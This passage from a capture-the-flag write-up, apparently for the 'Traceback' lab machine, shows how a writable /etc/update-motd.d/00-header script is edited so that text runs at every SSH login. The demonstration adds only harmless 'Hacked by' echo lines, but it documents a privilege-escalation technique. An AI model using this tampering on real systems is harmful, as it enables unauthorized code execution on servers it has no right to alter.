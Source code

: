 Sysadmin has write access for above file. Lets edit 00-header as shown below and relogin using webadmin using SSH.

Using Nano editor, we edit 00-header file as shown below.

```bash
 nano 00-header
Unable to create directory /home/webadmin/.local/share/nano/: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

sysadmin@traceback:/etc/update-motd.d$ cat 00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

echo "\nWelcome to Xh4H land \n"
echo "\n Hacked by Strawhack \n"

```

When we relogin in new terminal with webadmin we see the following message

```bash
ssh -i webadmin webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land


Hacked by Strawhack


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Aug 13 18:12:50 2020 from 10.10.17.246

```
